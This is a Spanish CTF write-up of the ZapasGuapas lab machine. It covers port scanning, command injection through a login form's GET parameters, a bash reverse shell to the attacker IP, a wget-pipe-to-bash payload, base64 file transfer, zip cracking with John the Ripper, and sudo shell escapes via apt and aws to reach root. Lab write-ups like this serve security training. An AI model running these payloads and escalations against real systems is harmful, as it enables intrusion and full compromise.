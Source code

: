 # Fase 1- Tanteo
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/695ad784-90ce-4a3d-80ae-0f0161e5e692)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

2.  **22/tcp(SSH):** OpenSSH 9.2p1
3. **80/tcp(HTTP):** Apache httpd 2.4.57

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Se encontró una pagina llamada `ZapasGuapas` es tipo una tienda. 
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/b2ce8d08-2fe3-453d-9b53-393065a99978)

# Fase 2- Exploración

#### FeroxBuster
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/5a437d5c-a950-4a68-ac51-43cd9ea661fe)
Encontró muchísimas cosas, pero me fije particularmente en un `login.html`.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/90d52b0d-7191-4ece-a932-ce5e4cf71e27)

Es un panel de inicio de sesión bastante feo.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/959808f9-8640-47ca-a3cb-d0d3f946d8ec)
Si revisamos el codigo vemos esto... El formulario de inicio de sesión envía los datos del usuario a un archivo `run_command.php` utilizando una solicitud `GET`. Podríamos intentar inyectar comandos maliciosos a través de los parámetros `username` y `password`.

# Fase 3- Explotación

#### GET
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/7a875947-7fe3-4b83-b8fb-2b18ce9d02df)

Capturamos la petición utilizando la herramienta Burpsuite.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/5c614c64-5617-4b06-8a68-54d84c4848d7)
En el lugar de la `password` coloque un `ls` y funciono! Tenemos un RCE.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/5ea07eb0-50af-4145-8cde-959134aa3cbe)

Creamos en nuestra maquina atacante un archivo llamado `shell.sh` con el siguiente contenido:
```r
/bin/bash -i >& /dev/tcp/192.168.1.2/443 0>&1
```

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/7565d212-d505-421d-ad40-ec761a7e7684)

Abrimos una pagina web por el puerto 80 con python.
Y en burpsuite le enviamos lo siguiente:
```r
GET /run_command.php?username=admin&password=wget+-O+-+192.168.1.2/shell.sh+|bash HTTP/1.1
Host: 192.168.1.7
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: */*
Sec-GPC: 1
Accept-Language: es-419,es
Referer: http://192.168.1.7/login.html
Accept-Encoding: gzip, deflate, br
Connection: close
```

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/3a149441-e9b3-45f4-b092-595ecdfbf46d)

Y listo! Estamos dentro!

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/b0546b54-c0bc-45cc-a138-2ba2f31b0c9b)

Despues de realizar el tratamiento de la TTY y no ver ningún binario que pueda ser usado empiezo a explorar la maquina y en el directorio `/opt` encuentro un `.zip`.
Vamos a pasárnoslo a nuestra maquina de esta forma:
```python
www-data@zapasguapas:/opt$ base64 -w0 importante.zip ;echo
UE.....
> echo "UE...." | base64 -d -w0 > importante.zip
```
El comando toma el archivo "importante.zip" en el directorio "/opt", lo convierte a formato base64 sin saltos de línea.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/96207b12-da30-4406-b340-2147b36208f4)

Y ya lo tenemos en nuestra maquina atacante.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/a7916a71-a6f5-4d08-9457-300c8dfe4fcb)

```python
> zip2john importante.zip > hash
> john --wordlist=/usr/share/wordlists/rockyou.txt hash
hotstuff         (importante.zip/password.txt)     
❯ unzip importante.zip
Archive:  importante.zip
 [importante.zip] password.txt password: hotstuff 
  inflating: password.txt
at password.txt
> cat password.txt

   1   │ He conseguido la contraseña de pronike. Adidas FOREVER!!!!
   2   │ 
   3   │ pronike11
```
El comando primero convierte el archivo "importante.zip" en un formato compatible con John the Ripper y guarda el resultado en un archivo llamado "hash". Luego, utilizamos John the Ripper para descifrar la contraseña del archivo utilizando un diccionario de contraseñas. Una vez que encuentra la contraseña, "hotstuff", descomprime el archivo y vemos la contraseña del usuario pronike, pronike11.


```python
❯ ssh pronike@192.168.1.7
The authenticity of host '192.168.1.7 (192.168.1.7)' can't be established.
ED25519 key fingerprint is SHA256:anWz9eEaTk4hI9Cn5nHeYg/yvQJE6szOEXzIsjaYQIs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.7' (ED25519) to the list of known hosts.
pronike@192.168.1.7's password: 
Linux zapasguapas 6.1.0-20-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.85-1 (2024-04-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
pronike@zapasguapas:~$ id                                                                                                                                                                                  
uid=1002(pronike) gid=1002(pronike) grupos=1002(pronike)
pronike@zapasguapas:~$ 
```
Y nos conectamos por ssh al usuario pronike.

#### pronike
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/d367ba67-a1c8-4beb-b526-052b50c1ddf7)
Despues de realizar el tratamiento de la TTY, vemos que podemos ejecutar el binario `apt` como el usuario `proadidas`. Para escalar privilegios con este binario se haría de la siguiente forma:
```python
pronike@zapasguapas:~$ sudo -u proadidas /bin/apt changelog apt
!/bin/bash
```

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/24eae865-f27c-4067-94a2-290a87309fd4)

Y ya somos el usuario proadidas!

#### Proadidas
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/b3505679-a5cd-4f91-97fc-8aeb5ba5b9db)
Podemos ejecutar el binario `aws` como el usuario `root`. La escalada se haría de la siguiente forma:
```r
sudo aws help
!/bin/bash
```

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/66164ff0-0149-4a9a-b74f-c96c952cd42c)

Maquina finalizada como usuario root!.





